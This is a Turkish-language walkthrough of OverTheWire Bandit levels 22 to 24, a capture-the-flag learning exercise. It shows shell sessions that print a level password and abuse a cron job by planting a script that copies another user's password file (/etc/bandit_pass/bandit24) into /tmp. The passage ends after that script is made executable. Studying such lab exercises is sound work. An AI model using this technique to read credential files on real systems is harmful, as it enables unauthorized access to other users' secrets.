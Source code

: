 ```r

cat /etc/bandit_pass/$myname > /tmp/$mytarget
bandit22@bandit:/etc/cron.d$ echo I am user bandit23 | md5sum | cut -d ' ' -f 1
8ca319486bfbbc3663ea0fbe81326349
bandit22@bandit:/etc/cron.d$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
```

**Kullanıcı adı:** `bandit23`

**Şifre:** `QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G`

### Bandit Level 23 → Level 24

http://overthewire.org/wargames/bandit/bandit24.html

"/etc/cron.d" dizininde "cronjob_bandit24" dosyasında bir cron yapılandırması mevcut. Dosyanın içinde çalıştırılan komutta; '/var/spool/$myname/foo' dizininde olan her dosyanın bir kez çalıştırılacağını ve 60 saniye sonra silineceğini görüyoruz. '/etc/bandit_pass/bandit24'ten şifreyi alıp başka bir dosyaya yazdırmak için bir '/tmp' dizinine script yazdım. Script'i '/var/spool/bandit24/foo' dizinine kopyaladım. Belli bir süre bekledikten sonra şifreyi okudum.

```r
bandit23@bandit:~$ cd /etc/cron.d
bandit23@bandit:/etc/cron.d$ file *
cronjob_bandit15_root: ASCII text
cronjob_bandit17_root: ASCII text
cronjob_bandit22:      ASCII text
cronjob_bandit23:      ASCII text
cronjob_bandit24:      ASCII text
cronjob_bandit25_root: ASCII text
e2scrub_all:           ASCII text
otw-tmp-dir:           regular file, no read permission
sysstat:               ASCII text
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo || exit 1
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -rf ./$i
    fi
done

bandit23@bandit:/etc/cron.d$ mkdir /tmp/here
bandit23@bandit:/etc/cron.d$ cd /tmp/here
bandit23@bandit:/tmp/here$ touch script.sh
bandit23@bandit:/tmp/here$ nano script.sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/here/password
bandit23@bandit:/tmp/here$ chmod 777 script.sh
```